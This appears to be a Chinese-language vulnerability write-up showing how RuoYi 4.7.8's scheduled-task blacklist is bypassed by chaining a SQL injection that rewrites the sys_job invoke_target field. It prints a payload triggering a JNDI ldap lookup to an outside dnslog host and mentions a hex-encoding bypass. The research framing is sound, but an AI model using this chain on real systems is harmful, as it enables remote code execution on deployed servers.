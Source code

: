在这个版本下可以看到有可以看到有ldaps、配置文件rce等方法bypass，网上挺多文章的就不分析了

## 4.7.3

在4.7.3的版本下，又增加了白名单，只能调用com.ruoyi包下的类！并且把之前所有的路堵死了

![4.7.3](https://gitee.com/hzleii/imgs/raw/main/stellar/post/2024/ruoyi-rce/25.webp)

![4.7.3](https://gitee.com/hzleii/imgs/raw/main/stellar/post/2024/ruoyi-rce/26.webp)


## 4.7.8（最新版）

依旧是没办法绕过黑白名单的限制。之前我们大概分析了一下定时任务的创建。对调用目标字符串过滤是在定时任务创建时进行的

审计之后可以看到，对目标字符串的过滤只发生在增加、修改计划任务时

![4.7.8](https://gitee.com/hzleii/imgs/raw/main/stellar/post/2024/ruoyi-rce/27.webp)

创建后的定时任务信息存储在sys_job表中

![4.7.8](https://gitee.com/hzleii/imgs/raw/main/stellar/post/2024/ruoyi-rce/28.webp)

结合4.7.5 版本下的sql注入漏洞，直接修改表中的数据
参考：https://gitee.com/y_project/RuoYi/issues/I65V2B

在`com.ruoyi.generator.controller.GenController#create`

![4.7.8](https://gitee.com/hzleii/imgs/raw/main/stellar/post/2024/ruoyi-rce/29.webp)

这块直接调用了`genTableService.createTable()`，咱直接跟进去看看

![4.7.8](https://gitee.com/hzleii/imgs/raw/main/stellar/post/2024/ruoyi-rce/30.webp)

Mapper语句：

![4.7.8](https://gitee.com/hzleii/imgs/raw/main/stellar/post/2024/ruoyi-rce/31.webp)


接下来创建一个定时任务调用这个类，直接从sys_job表中把某一个定时任务调用目标字符串(invoke_target字段)改了

先谈个dnslog试试

```shell
genTableServiceImpl.createTable('UPDATE sys_job SET invoke_target = 'javax.naming.InitialContext.lookup('ldap://xcrlginufj.dgrh3.cn')' WHERE job_id = 1;')
```


但会触发黑名单

![4.7.8](https://gitee.com/hzleii/imgs/raw/main/stellar/post/2024/ruoyi-rce/32.webp)

由于是执行sql语句，直接将value转为16进制即可

![4.7.8](https://gitee.com/hzleii/imgs/raw/main/stellar/post/2024/ruoyi-rce/33.webp)
